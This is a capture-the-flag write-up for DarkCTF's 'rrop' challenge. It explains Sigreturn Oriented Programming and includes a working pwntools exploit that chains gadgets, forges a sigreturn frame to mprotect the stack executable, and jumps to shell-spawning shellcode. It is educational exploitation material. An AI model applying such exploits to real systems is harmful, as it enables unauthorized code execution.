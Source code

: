 ## DarkCTF: rrop [pwn]
> Even though Solar Designer gave you his times technique, you have to resolve(sort-out) yourself and go deeper. This time rope willn't let you have anything you want but you have to make a fake rope and get everything.

## Notes
#### I didn't solve this during the ctf rather I studied the exploit of the challenge author plus read some other writeups regarding the exploit class as well. The exploit used to solve the challenge is a technique called `Sigreturn Oriented Programming (SROP)` in which when a signal occurs, the kernel “pauses” the process’s execution in order to jump to a signal handler routine. In order to safely resume the execution after the handler, the context of that process is pushed/saved on the stack (registers, flags, instruction pointer, stack pointer etc). When the handler is finished, sigreturn() is being called which will restore the context of the process by popping the values off of the stack. That’s what is being exploited in that technique. (Amriunix)

#### Basically the two important gadgets we need to do the exploit (which are easily provided in this case) are gadgets to set rax to 0xf and to syscall. We also need access to a user controlled data, and from there ways to approach it differ. For this challenge, we made a rop chain to set rax to 0xf and use the syscall to call sigreturn which takes our fake stack frame that we constructed to call mprotect on a stack region which we placed our shellcode, then return to the shellcode after making the stack executable. I will need more experience with challenges that involve this technique. Here is the exploit code I used. 

```python
from pwn import *

#: Connect to challenge server
p = process('./rrop')
binary = ELF('./rrop', checksec = False)

#p = remote('rrop.darkarmy.xyz', 7001)
#gdb.attach(p.pid, 'break *main + 88')
print(p.recvuntil('@'))
buffer_leak = int(p.recvuntil(',').strip(','), 16)
print('[*] buffer leak: {}'.format(hex(buffer_leak)))
print(p.recv())

#: craft exploit
context.arch = 'amd64'
eax_rax = 0x4007dc
usefulf = 0x4007d2

exploit = asm(shellcraft.amd64.linux.sh())
exploit += cyclic(216 - len(exploit))
exploit += p64(eax_rax)
exploit += p64(usefulf)

#: forge sigreturn structure
sigreturn_frame = SigreturnFrame(kernel = 'amd64')
sigreturn_frame.rax = 10 #: mprotect syscall number
sigreturn_frame.rdx = 7 #: rwx permissions
sigreturn_frame.rdi = buffer_leak & ~0xfff #: for some reason, I can't directly mprotect the user input buffer but for some other stack address it works. need clarification here.
sigreturn_frame.rsi = 1000 #: size to mprotect
sigreturn_frame.rsp = buffer_leak + len(exploit) + 248 #: fake stack frame, 248 is the size of the fake sigcontext structure
sigreturn_frame.rip = usefulf #: set rip to syscall

#: set up fake sigcontext structure
exploit += str(sigreturn_frame) #: executes the mprotect call with the placed arguments
exploit += p64(buffer_leak) #: returns to the address of the shellcode, which is already set to rwx

p.sendline(exploit)
p.interactive()
```

#### Reading resources:
```
#: https://amriunix.com/post/sigreturn-oriented-programming-srop/
#: https://0x00sec.org/t/srop-signals-you-say/2890
#: https://www.cs.vu.nl/~herbertb/papers/srop_sp14.pdf
#: https://hackmd.io/@imth/SROP
#: https://github.com/Internaut401/CTF_Writeup/blob/master/2020/DarkCTF/rrop.md
#: https://github.com/gr4n173/CTF-WriteUp/tree/master/Darkctf/pwn/rrop
```